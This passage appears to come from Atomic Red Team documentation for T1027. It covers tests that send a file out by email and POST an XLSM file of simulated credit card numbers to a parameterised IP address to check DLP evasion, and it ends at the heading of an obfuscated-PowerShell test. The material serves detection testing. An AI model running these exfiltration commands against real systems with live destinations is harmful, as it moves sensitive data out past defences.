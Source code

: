 
#### Attack Commands: Run with `powershell`! 


```powershell
Send-MailMessage -From #{sender} -To #{receiver} -Subject 'T1027_Atomic_Test' -Attachments "#{input_file}" -SmtpServer #{smtp_server}
```






<br/>
<br/>

## Atomic Test #6 - DLP Evasion via Sensitive Data in VBA Macro over HTTP
Upon successful execution, an excel containing VBA Macro containing sensitive data will be sent outside the network using HTTP.
Sensitive data includes about around 20 odd simulated credit card numbers that passes the LUHN check.

**Supported Platforms:** Windows


**auto_generated_guid:** e2d85e66-cb66-4ed7-93b1-833fc56c9319





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path of the XLSM file | path | PathToAtomicsFolder&#92;T1027&#92;src&#92;T1027-cc-macro.xlsm|
| ip_address | Destination IP address | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-WebRequest -Uri #{ip_address} -Method POST -Body "#{input_file}"
```






<br/>
<br/>

## Atomic Test #7 - Obfuscated Command in PowerShell
This is an obfuscated PowerShell command which when executed prints "Hello, from PowerShell!". Example is from the 2021 Threat Detection Report by Red Canary.

**Supported Platforms:** Windows
